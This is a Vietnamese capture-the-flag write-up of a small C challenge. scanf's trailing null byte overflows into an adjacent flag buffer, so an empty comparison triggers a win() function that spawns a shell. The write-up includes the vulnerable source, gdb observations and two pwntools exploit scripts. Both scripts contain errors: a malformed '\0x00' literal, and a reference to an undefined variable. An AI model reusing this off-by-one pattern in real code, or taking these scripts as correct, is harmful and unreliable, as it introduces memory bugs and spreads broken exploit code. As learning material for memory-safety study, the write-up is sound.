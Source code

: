 # Chall

## Tìm lỗ hổng

```C
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>

void win() {
    system("/bin/sh");
}

void init() {
    alarm(60);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(void) {
    char your_try[64]={0};
    char flag[64]={0};

    init();

    puts("guess the flag!> ");

    FILE *fp = fopen("./flag", "r");
    if (fp == NULL) exit(-1);
    size_t length = fread(flag, 1, 64, fp);

    scanf("%64s", your_try);

    if (strncmp(your_try, flag, length) == 0) {
        puts("yes");
        win();
    } else {
        puts("no");
    }
    return 0;
}
```

Chúng ta được cung cấp code C và file thực thi. Khi đọc code thực thi chúng ta nhận ra chương trình này là đọc file flag trên sever rồi compare với input mà người dùng nhập vào. Chuỗi your_try được khai báo là mảng 64 kí tự là chuỗi mà người dùng nhập vào. Tôi tiến hành dùng gdb pdis main rồi đặt breakpoint tại chỗ compare flag.
![alt-text](image-1.png)

Tại đây tôi chạy với chuỗi luongsosad và chuỗi giả flag.txt kia. Tôi tiến hành trừ địa chỉ
![alt-text](image-2.png)
0x7fffffffdf00-0x7fffffffdec0 = 64 mà khai báo chuỗi input vào cũng 64 bytes, ô nhớ của 2 cái này liền kề nhau. Vậy chuyện gì sẽ xảy ra khi nhập nhiều hơn 64.

![alt-text](image-3.png)

Tôi thử nhập 66 kí tự , input chỉ lưu được 64 kí tự a. Còn ô nhớ flag lại trở thành ''.
![alt-text](image-4.png)
Tức là scanf sau khi nhập 64 kí tự rồi thêm cái '\x00' để kết thúc chuỗi tức là len chuỗi lúc này phải là 65. Chính vì thế mà bytes của input đã bị tràn sang flag. Hiểu tức là '\0' đã tràn sang flag và hiểu chuỗi đó trở thành chuỗi NULL coi như kết thúc chuỗi luôn.

## Lên kịch bản

Vậy ý tưởng lúc này chúng ta cần so sánh được 2 chuỗi NULL là sẽ thành công exploit được chương trình này. Tóm lại chúng ta chỉ cần nhập chuỗi input start with NULL và end cũng với NULL thế là sẽ thành so sánh 2 chuỗi NULL và khai thác được hàm win().
Do chuỗi chỉ tính đến NULL là kết thúc.

## Khai thác

```Python
from pwn import *

r = process("./chall")
payload = "\x00"*1 + "a"*62 + "\0x00"
r.sendline(payload)
r.interactive()
```

```Python
from pwn import *

r = process("./chall")
payload1 = "\x00" * 64
r.sendline(payload)
r.interactive()
```

Đây là code của tôi ví dụ với 2 payloads, sau khi chạy cat flag.txt là đã thành công.
![alt-text](image-5.png)
